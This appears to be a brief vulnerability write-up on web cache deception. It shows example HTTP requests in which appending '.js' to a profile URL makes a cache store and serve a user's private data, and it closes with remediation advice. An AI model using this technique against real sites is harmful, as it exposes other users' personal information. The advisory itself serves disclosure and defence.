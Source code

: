 # Web Cache Deception
The vulnerability found concerns a misconfiguration of the web cache that allows an attacker to access private or sensitive content intended only for authenticated users.
By manipulating the URL, the attacker can trick the cache system and force the caching of a response containing confidential information.

# How to exploit
Here is a concrete example of how a discrepancy in path mapping within a web app can be exploited to perform a Web Cache Deception attack. Suppose we have a web app with an area reserved for user profiles

The authenticated user can access their profile page via the following URL:

**GET /user/123/profile HTTP/1.1**

**Host: www.example.com**

Server response:

HTTP/1.1 200 OK

Content-Type: text/html

Cache-Control: no-store

Cf-Cache-Status: BYPASS


<html>
<body>
Profilo di Jacopo
<p>Email: jacopo@example.com</p>
<p>Indirizzo: xxxxx</p>
</body>
</html>

In this case, the server correctly returns the profile information of authenticated user 123 (jacopo) and does not cache the response thanks to the Cache-Control: no-store header

**Attempted Web Cache Deception:**

The attacker could manipulate the URL by adding a commonly cacheable extension such as .js, thereby tricking the cache system into storing the response

**GET /user/123/profile.js HTTP/1.1**

**Host: www.example.com**

Server response:

HTTP/1.1 200 OK
Content-Type: text/html
Cache-Control: public, max-age=3600
Cf-Cache-Status: **HIT**

 the origin server might treat the URL **/user/123/profile.js** as if it were a normal request for user profile 123, ignoring the .js extension. However, the caching system might interpret the URL as a static resource (a .js file) and decide to cache the response


At this point, any user (authenticated or not) accessing the same manipulated URL in incognito mode or from another device will get the response cached with the sensitive profile data of user 123

**GET /user/123/profile.js HTTP/1.1**

**Host: www.example.com**

# Recommendations:
Disable caching for sensitive content: Correctly set cache headers, such as Cache-Control: no-store, for all sensitive resources and pages requiring authentication.

Path validation: Implement control logic on URLs to reject requests with unexpected extensions or unusual syntax.

Authentication control: Ensure that every request to sensitive resources always performs an authentication check, even if the resource has been previously cached.





